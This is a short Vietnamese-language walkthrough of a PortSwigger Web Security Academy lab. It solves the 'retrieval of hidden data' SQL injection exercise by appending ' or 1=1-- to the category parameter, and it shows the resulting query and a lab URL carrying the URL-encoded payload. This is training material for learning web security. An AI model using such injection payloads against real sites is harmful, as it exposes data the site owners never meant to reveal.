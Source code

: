 ## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Lab cho biết như sau:

![](/imgs/SQL-Injection/72.png?raw=true)

Nôm na là web sẽ sử dụng câu query như thế để lấy ra các loại sản phẩm.

Vậy chúng ta sẽ thêm vào 1 câu điều kiện luôn đúng là or 1=1 ở sau là solve lab rồi 
=> Câu query nguyên bản sẽ có dạng SELECT * FROM products WHERE category = 'Gifts' or 1=1-- AND released = 1 => Khúc đằng sau là AND release bị comment lại nên ko chạy nữa.

```markdown
https://ac311f921ff37433805c14dd007e00d9.web-security-academy.net/filter?category=Gifts%27%20or%201=1--
```

![](/imgs/SQL-Injection/73.png?raw=true)